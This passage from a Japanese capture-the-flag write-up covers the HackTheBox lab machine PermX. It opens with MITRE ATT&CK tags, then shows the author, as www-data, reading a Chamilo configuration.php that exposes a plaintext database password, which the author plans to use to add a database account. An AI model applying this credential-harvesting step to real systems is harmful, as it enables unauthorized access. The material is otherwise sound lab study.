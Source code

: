 
- **Tactics**:
    - #Tactic_初期アクセス
    - #Tactic_Escution_実行
- **Techniques**:
    - #T1190_公開アプリケーションのエクスプロイト
    - #T1059_コマンドとスクリプトインタープリタ
    - #T1078_有効なアカウント
    - その他のInitial Access/Execution関連技術...



---

# Lateral Movement
www-dataは、Apacheサーバーの管理者として、/var/wwwは自由にいじれる権限がある。
/var/www以下を色々見ていると、configuration.phpがある。
configuration.phpは、データベースの設定を行なっているphpであり、データベースにログインするためのアカウント情報を取得できる。
ここで取得できたアカウント情報でデータベースにアカウントを追加する。
```bash
www-data@permx:/var/www/chamilo/app/config$ head -30 configuration.php
head -30 configuration.php
<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
 * (table settings_current).
 */

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;

/**
 * Directory settings.
 */
// URL to the root of your Chamilo installation, e.g.: http://www.mychamilo.com/
$_configuration['root_web'] = 'http://lms.permx.htb/';
// Path to the webroot of system, example: /var/www/
```
